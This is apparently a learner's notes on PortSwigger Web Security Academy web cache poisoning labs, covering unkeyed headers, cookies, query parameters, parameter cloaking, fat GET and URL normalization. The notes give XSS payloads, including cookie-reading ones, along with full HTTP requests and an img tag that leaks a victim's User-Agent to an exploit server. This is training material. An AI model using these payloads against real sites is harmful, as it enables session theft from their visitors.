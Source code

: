 # Web Cache Poisoning

## Unkeyed header
- Use param miner extension to find headers
  - Found that x-Forwarded-Host is reflected in the response
- Used this payload to exploit: `X-Forwarded-Host: "></script><script>alert(document.cookie)</script><script>`

## Unkeyed cookie
- Cookies are not in cache key 
  - Cache key = predefined request components
- Param miner found fehost cookie
- Used this payload to exploit: `Cookie: fehost=x")</script><script>alert(1)</script><script>`

## Multiple headers
- Param miner found X-Forwarded-Proto header
- If you use this it adds a redirect to a url that includes the web dir in the original request
- The website also allowed for X-Forwarded-Host which would change the link
- I sent this request to tracking.js:
```http
GET /resources/js/tracking.js HTTP/2Host: 0a5200060335f34b817d667700130056.web-security-academy.net
Cookie: session=CMTcrvpZEooQ7J39QXbx1HYOk8OlhNwC
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a5200060335f34b817d667700130056.web-security-academy.net/?%3Cscript%3Ealert(1)%3C/script%3E
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a7a00fd0366f3b28166658101d300c4.exploit-server.net
```
- and got this response:
```http
HTTP/2 302 Found
Location: https://exploit-0a7a00fd0366f3b28166658101d300c4.exploit-server.net/resources/js/tracking.js
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 3
X-Cache: hit
Content-Length: 0
```
- The X-Cache: hit means that the new link was stored
- The payload on the exploit server was: `alert(document.cookie)`

## Unknown header
- Param miner found X-Host header
  - This edited the tracking.js link
  - Changed exploit server to: `/resources/js/tracking.js`
  - added the payload `alert(document.cookie)`
- This works for me, but no solve
- Found that the Vary header in the response is set to User-Agent
- The comments allowed for HTML so used: `<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />`
  - This made the victim interact with the server
  - The victims User-Agent was in the access log
- Changed the User-Agent in Burp and resent the request

## Unkeyed query string
- You have to add the Origin header to test since it was a cache buster
  - You need a cache buster when you constantly get hits and no misses
- This solves the lab: `/?test=x'/><script>alert(1)</script><`

## Unkeyed query parameter
- utm parameter was Unkeyed
- This is the payload: `/?utm_content='/><script>alert(1)</script><`
- Again Origin was cache buster
- Take off Origin and click send until it appears

## Parameter cloaking
- utm parameter was allowed 
- The geolocate.js was using callback
- Used this to cloak the change in callback: `/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)`
  - Cloaking was needed to avoid the cache keys

## fat GET
- Found callback in geolocate.js
- Used this request to get the alert
```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0a26003f0429f29e803576e000d8002b.web-security-academy.net
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a26003f0429f29e803576e000d8002b.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Http-Method-Override: POST
Content-Length: 17

callback=alert(1)
```

## URL Normalization
- 404 error reflected url
- You had to poison and immediately send the url to the victim
- This was the url: `https://0a44009203ac0bc18de49d8000e1004b.web-security-academy.net/x</p><script>alert(1)</script><p>`
